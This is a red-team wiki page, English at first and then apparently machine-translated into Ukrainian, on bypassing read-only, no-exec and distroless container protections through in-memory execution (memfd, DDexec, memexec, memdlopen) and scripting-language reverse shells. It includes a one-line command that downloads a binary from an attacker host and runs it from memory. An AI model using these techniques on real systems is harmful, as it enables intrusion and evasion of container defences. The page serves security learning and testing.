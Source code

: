 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в усній та письмовій формі_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Для отримання додаткової інформації про цю техніку перевірте Github або:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) є природним наступним кроком DDexec. Це **DDexec shellcode demonised**, тому що щоразу, коли ви хочете **запустити інший бінарний файл**, вам не потрібно перезапускати DDexec, ви можете просто запустити shellcode memexec за допомогою техніки DDexec, а потім **спілкуватися з цим демоном, щоб передати нові бінарні файли для завантаження та виконання**.

Ви можете знайти приклад того, як використовувати **memexec для виконання бінарних файлів з PHP реверс-шелу** за адресою [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

З подібною метою до DDexec, техніка [**memdlopen**](https://github.com/arget13/memdlopen) дозволяє **легше завантажувати бінарні файли** в пам'ять для подальшого виконання. Це може навіть дозволити завантажувати бінарні файли з залежностями.

## Distroless Bypass

### Що таке distroless

Контейнери distroless містять лише **найнеобхідні компоненти для запуску конкретного застосунку або служби**, такі як бібліотеки та залежності виконання, але виключають більші компоненти, такі як менеджер пакетів, оболонка або системні утиліти.

Мета контейнерів distroless полягає в тому, щоб **зменшити поверхню атаки контейнерів, усунувши непотрібні компоненти** та мінімізуючи кількість вразливостей, які можуть бути використані.

### Реверс-шел

У контейнері distroless ви, можливо, **навіть не знайдете `sh` або `bash`**, щоб отримати звичайну оболонку. Ви також не знайдете бінарні файли, такі як `ls`, `whoami`, `id`... все, що ви зазвичай запускаєте в системі.

{% hint style="warning" %}
Отже, ви **не зможете** отримати **реверс-шел** або **перерахувати** систему, як зазвичай.
{% endhint %}

Однак, якщо скомпрометований контейнер, наприклад, запускає flask web, тоді python встановлений, і тому ви можете отримати **Python реверс-шел**. Якщо він запускає node, ви можете отримати Node rev shell, і те ж саме з більшістю будь-яких **скриптових мов**.

{% hint style="success" %}
Використовуючи скриптову мову, ви могли б **перерахувати систему**, використовуючи можливості мови.
{% endhint %}

Якщо немає **захистів `read-only/no-exec`**, ви могли б зловживати своїм реверс-шелом, щоб **записувати у файлову систему свої бінарні файли** та **виконувати** їх.

{% hint style="success" %}
Однак у таких контейнерах ці захисти зазвичай існують, але ви могли б використовувати **попередні техніки виконання в пам'яті, щоб обійти їх**.
{% endhint %}

Ви можете знайти **приклади** того, як **використовувати деякі вразливості RCE**, щоб отримати реверс-шели скриптових мов та виконувати бінарні файли з пам'яті за адресою [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** та зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
